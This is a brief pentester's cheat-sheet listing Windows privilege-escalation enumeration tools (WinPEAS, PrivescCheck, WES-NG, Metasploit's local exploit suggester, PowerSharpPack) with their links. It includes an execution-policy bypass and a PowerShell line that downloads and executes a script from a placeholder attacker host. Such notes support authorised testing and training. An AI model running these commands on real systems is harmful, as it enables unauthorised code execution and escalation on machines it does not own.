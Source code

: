 ### WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5) PowerSharpUp 

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')
